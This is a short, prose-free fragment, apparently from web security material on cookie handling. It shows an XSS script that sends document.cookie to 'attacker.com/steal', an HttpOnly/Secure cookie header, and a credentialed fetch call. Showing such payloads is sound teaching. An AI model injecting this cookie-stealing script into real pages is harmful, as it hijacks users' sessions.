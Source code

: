 ```
<script>
 fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```


Set-Cookie: jwt=eyJhbGciOi...; HttpOnly; Secure; SameSite;


```

fetch("/api/user", {
    method: "GET",
    credentials: "include",
});

```

